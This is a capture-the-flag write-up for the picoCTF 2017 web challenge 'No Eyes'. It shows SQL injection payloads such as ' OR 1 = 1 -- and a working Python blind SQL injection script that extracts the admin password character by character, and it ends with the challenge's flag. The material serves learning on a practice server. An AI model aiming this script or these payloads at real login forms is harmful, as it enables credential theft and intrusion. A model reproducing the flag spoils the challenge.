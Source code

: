 # No Eyes
## level 3 - web exploitation - 125 points

### Description
> The [website](http://shell2017.picoctf.com:33838/) isn't really me much, but you can still get the admin password, right?

### Hints
> * Sometimes an error message can be just as useful.

### Solution

Open the website and use `admin` as username and `'` as password, this will trigger an error printing the executed query:

```sql
select * from users where pass = ''';
```

So we can inject arbitrary SQL. Let's try with `' OR 1 = 1 --` as password. It will trigger this error:

```
Login Functionality Not Complete. Flag is 63 characters
```

We actually have passed the password check, but the login function is not implemented. As suggested from the title and the hint we can perform a [blind SQL injection attack](https://www.owasp.org/index.php/Blind_SQL_Injection) on password field. I used Python to automate the process:

```python
import requests, string

URL = 'http://shell2017.picoctf.com:33838/'

characters = ''.join([string.lowercase, string.digits, '_'])
current = ''

for i in range(0, 63 - len(current)):
    for char in characters:
        data = {
            'username': 'admin',
            'password': '\' OR pass LIKE "%s%s%%" --' % (current, char)
        }

        r = requests.post(URL, data=data)
        if 'Login Functionality' in r.text:
            current += char
            print 'Password: %s' % current
            break
    
print 'DONE!'
```

It will try every character until the login is successful, concatenate the letter we found, then pass to the next one. It will run for 63 cycles as said from the login error we saw. It will take some time and probably it will fail: in this case you can copy the last found password (outputted on screen) and paste in line 6 to resume:

```
$ python blind.py
Password: n
Password: no
Password: not
...
Password: not_all_errors_should_be_shown_07fa15beae68af0694171000114ec4
Password: not_all_errors_should_be_shown_07fa15beae68af0694171000114ec41
Password: not_all_errors_should_be_shown_07fa15beae68af0694171000114ec419
DONE!
```

### Flag
```
not_all_errors_should_be_shown_07fa15beae68af0694171000114ec419
```
